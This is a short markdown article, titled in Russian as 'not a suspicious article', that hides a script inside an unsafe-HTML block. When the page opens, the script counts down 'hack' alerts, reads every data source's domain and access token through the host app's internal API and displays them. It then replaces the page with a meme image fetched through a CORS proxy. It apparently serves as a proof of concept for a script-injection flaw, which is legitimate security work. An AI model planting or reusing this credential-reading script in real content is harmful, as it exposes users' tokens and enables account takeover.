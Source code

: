 ```yaml
---
order: 1
title: Не подозрительная статья
---
```


Вообще ничего подозрительного

[html:unsafe]

<div>123</div>
<script>
// const ctx = await window.app.contextFactory.fromBrowser();
alert(`Взлом через 3`);
alert(`Взлом через 2`);
alert(`Взлом через 1`);
window.app.contextFactory.fromBrowser().then((ctx)=>{
    const workspace = window.app.wm.current()
	const rp = window.app.rp;
    const sourceDatas = rp.getSourceDatas(ctx);
    
    alert(`Привет, я взломал тебя:\n\n${sourceDatas.map(d=>d.domain + " " + d.token).join("\n")}`);
	document.body.innerHTML = `<img crossorigin="anonymous" src="https://corsproxy.io/?url=https://en.meming.world/images/en/9/9e/Professionals_Have_Standards.jpg"></img>`;
})

    </script>

[/html]
